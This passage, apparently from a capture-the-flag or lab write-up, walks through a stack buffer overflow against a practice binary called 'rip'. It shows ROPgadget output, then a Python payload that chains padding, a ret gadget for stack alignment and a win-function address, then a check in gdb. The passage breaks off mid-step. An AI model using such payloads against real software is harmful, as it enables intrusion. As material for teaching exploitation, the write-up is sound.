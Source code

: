 One way of finding ROP-gadgets is to use the `ROPgadget.py` tool:

```bash
$ ROPgadget --binary ./rip --ropchain
Gadgets information
============================================================
# ...abbreviated
0x00000000004013f1 : pop rsi ; pop r15 ; ret
0x00000000004013ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
# ...abbreviated
Unique gadgets found: 76
```

We find multiple `ret`-gadgets in our `rip`-binary, let's use this one; `0x000000000040101a : ret`.

Let's modify our payload again. We remove `p64(0xC3),` and add `p64(0x40101a),`:

```python
payload = b"".join([
    b'A' * offset,
    p64(0x40101a),
    p64(addr_win)
])
```

We debug our payload in `gdb` again:

![](05.png)

We can confirm that we now have an extra address on the stack that points to a `ret`-instruction.

Let's execute one more instruction in `gdb` using `ni`:
